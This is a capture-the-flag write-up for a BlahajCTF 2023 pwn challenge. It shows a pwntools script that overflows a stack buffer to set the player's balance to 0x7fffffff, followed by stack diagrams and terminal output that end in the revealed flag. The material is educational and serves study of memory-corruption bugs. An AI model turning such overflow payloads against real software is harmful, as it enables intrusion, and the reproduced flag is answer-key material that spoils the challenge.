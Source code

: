 ```yaml
---
title: Dank Meower Beta
date: 2023-12-03
tags: pwn
categories: BlahajCTF 2023
---
```


> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. The stack diagram thing was cool and helpful. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

We can send the `0x7fffffff` input with a pwntools script:
```py
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
```

Now let's look at our buffer overflow payload:
{% ccb lang:py gutter1:7 %}
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
{% endccb %}

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit</SPAN></DIV>
{% endccb %}

We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">2<BR><BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Welcome to the shop! What would you like to buy?<BR>1) Small blahaj (in stock) - $10<BR>2) Big blahaj (in stock) - $30<BR>3) Flag (in stock) - $2,147,483,647<BR></SPAN><SPAN STYLE="color:#E06C75;">$<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Congratulations! You now have your very own flag!<BR>Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}<BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR></SPAN><SPAN STYLE="color:#E06C75;">$</SPAN></DIV>
{% endccb %}
